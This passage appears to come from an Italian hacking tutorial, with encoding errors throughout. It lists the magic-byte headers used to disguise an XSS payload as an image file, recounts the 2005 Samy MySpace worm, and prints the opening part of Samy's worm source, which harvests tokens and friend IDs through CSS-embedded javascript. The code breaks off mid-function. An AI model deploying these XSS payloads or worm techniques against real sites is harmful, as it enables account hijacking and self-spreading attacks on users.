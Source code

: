immagine.gif potrÃ  oservare il nostro alert!
(Mozilla FireFox non mostra sempre questi tipi di alert, IE invece si)

Ricordiamoci che per ogni estensione di immagine quei pochi caratteri cambiano, qui vi

riporto una lista dei suddetti caratteri:

-PNG = â€°PNG

-GIF = GIF89a

-JPG = Ã¿Ã˜Ã¿Ã  JFIF

-BMP = BMFÃ–




Code:
[+] XSS W0rm:

Questo Ã¨ un argomento non molto sviluppato proprio perchÃ¨ Ã¨ ancora in fase di sviluppo,

basti pensare infatti che il primo w0rm legato alle XSS Ã¨ nato nel 2005 e si chiamava Samy;
Samy era un w0rm per myspace,e per evitare le restrizioni del provider, che non consente

l'upload di javascript, l'utente ha inserito lo script nei CSS e Internet Explorer ha fatto

il resto. Il codice, infatti, avrebbe dovuto essere considerato un CSS non valido, ma IE lo

ha eseguito e lo ha fatto propagare per i membri della community.
Attraverso questo verme Samy ha infettato piÃ¹ di un milione di account e continuava a

replicarsi aggiungendo amici al profilo dell utente creatore del w0rm.(alle 9.30 della

stessa notte le richieste erano milioni e continuavano ad affluire ogni millesimo di

secondo, cosÃ¬ facendo myspace Ã¨ caduto ed Ã¨ andato offline)
Code of Samy:

<div id=mycode style="BACKGROUND: url('java
script:eval(document.all.mycode.expr)')" expr="var B=String.fromCharCode(34);var

A=String.fromCharCode(39);function g(){var C;try{var

D=document.body.createTextRange();C=D.htmlText}catch(e){}if(C){return C}else{return

eval('document.body.inne'+'rHTML')
}}
function getData(AU){M=getFromURL(AU,'friendID');L=getFromURL(AU,'Mytoken')}function

getQueryParams(){var E=document.location.search;var F=E.substring(1,E.length).split('&');var

AS=new Array();for(var O=0;O<F.length;O++){var I=F[O].split('=');AS[I[0]]=I[1]}return AS}var

J;var AS=getQueryParams();var L=AS['Mytoken'];var

M=AS['friendID'];if(location.hostname=='profile.myspace.com'){document.location='http://www.

myspace.com'+location.pathname+location.search}else{if(!M){getData(g())}main()}function

getClientFID(){return findIn(g(),'up_launchIC( '+A,A)}function nothing(){}function

paramsToString(AV){var N=new String();var O=0;for(var P in AV){if(O>0){N+='&'}var
